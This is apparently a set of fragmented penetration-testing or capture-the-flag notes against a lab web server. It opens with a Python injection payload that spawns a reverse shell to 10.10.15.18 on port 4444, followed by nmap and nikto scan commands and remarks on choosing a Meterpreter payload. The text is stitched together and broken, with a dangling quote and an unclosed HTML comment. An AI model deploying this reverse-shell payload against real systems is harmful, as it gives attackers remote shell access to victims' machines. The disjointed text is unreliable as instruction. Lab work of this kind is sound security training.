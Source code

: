 
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.15.18',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

<!-- Omit 
Next scan is targeted towards port 80 (HTTP)

Both of these scans can scan for vulnerabilities for port 80 (HTTP) web server & discover hidden directories. 
nmap -p 80 --script=http-enum 10.10.11.208
– -p 80: this command instructs Nmap to perform a basic scan on port 80 (-p 80) of the target IP address 10.10.11.208. 
– --script=http-enum: this script is used to enumerate and gather information about directories and files on the web server.
nikto -h 10.10.11.208 

     (Nikto is a widely used open-source web vulnerability scanner that helps identify potential security vulnerabilities and misconfigurations in web servers)

– -h: flag specifies the target hostname or IP address that Nikto will scan.--->             
               show modules
               msfvenom
               meterpreter


Your decision on which version of Meterpreter to use will be mostly based on three factors;

    The target operating system (Is the target operating system Linux or Windows? Is it a Mac device? Is it an Android phone? etc.)
    Components available on the target system (Is Python installed? Is this a PHP website? etc.)
    Network connection types you can have with the target system (Do they allow raw TCP connections? Can you only have an HTTPS reverse connection? Are IPv6 addresses not as closely monitored as IPv4 addresses? etc.) 
